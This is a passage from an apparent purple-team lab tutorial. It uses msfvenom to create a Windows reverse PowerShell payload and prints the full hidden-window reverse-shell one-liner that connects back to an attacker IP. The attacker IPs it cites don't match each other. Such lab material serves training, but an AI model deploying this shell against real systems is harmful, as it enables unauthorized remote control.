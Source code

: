 </aside>

## Execute the Initial Compromise

As previously mentioned, beacons are a post compromise payload. In order to deploy the beacon today we will execute the attack from Purple Team Exercise 1 to get a reverse shell.

1) On Kali Purple, create a reverse shell using msfvenom using the command below. *Use the IP address of **your** Kali Purple VM.

```powershell
msfvenom -p cmd/windows/reverse_powershell lhost=10.0.2.5 lport=1337 > shell.txt
```

This command uses the **`msfvenom`** tool from the Metasploit framework to generate a Windows shellcode that creates a reverse PowerShell shell. Let's break down the command:

- **`p cmd/windows/reverse_powershell`**: Specifies the payload to use, which in this case is a reverse PowerShell shell for Windows.
- **`lhost=192.168.1.198`**: Specifies the IP address of the attacker's machine (the listening host) to which the reverse shell will connect back.
- **`lport=1337`**: Specifies the port on the attacker's machine to which the reverse shell will connect.
- **`> shell.txt`**: Redirects the output of the command (the generated shellcode) to a file named **`shell.txt`**.

As seen above, this command generates a PowerShell command that, when executed on a target Windows machine, will establish a reverse shell back to the attacker's machine on IP address 192.168.1.198, port 1337.

![Untitled](Screenshots/1-C2Framework/image45.webp)

**reverse shell script shown below**

```powershell
powershell -w hidden -nop -c $a='192.168.1.151';$b=1337;$c=New-Object system.net.sockets.tcpclient;$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$ob=New-Object System.Byte[] 65536;$eb=New-Object System.Byte[] 65536;$e=new-object System.Text.UTF8Encoding;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.RedirectStandardError=1;$p.StartInfo.UseShellExecute=0;$q=$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;$es=$p.StandardError;$osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null);$esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null);$c.connect($a,$b);$s=$c.GetStream();while ($true) { start-sleep -m 100; if ($osread.IsCompleted -and $osread.Result -ne 0) { $r=$os.BaseStream.EndRead($osread); $s.Write($ob,0,$r); $s.Flush(); $osread=$os.BaseStream.BeginRead($ob, 0, $ob.Length, $null, $null); } if ($esread.IsCompleted -and $esread.Result -ne 0) { $r=$es.BaseStream.EndRead($esread); $s.Write($eb,0,$r); $s.Flush(); $esread=$es.BaseStream.BeginRead($eb, 0, $eb.Length, $null, $null); } if ($s.DataAvailable) { $r=$s.Read($nb,0,$nb.Length); if ($r -lt 1) { break; } else { $str=$e.GetString($nb,0,$r); $is.write($str); } } if ($c.Connected -ne $true -or ($c.Client.Poll(1,[System.Net.Sockets.SelectMode]::SelectRead) -and $c.Client.Available -eq 0)) { break; } if ($p.ExitCode -ne $null) { break; }}
```
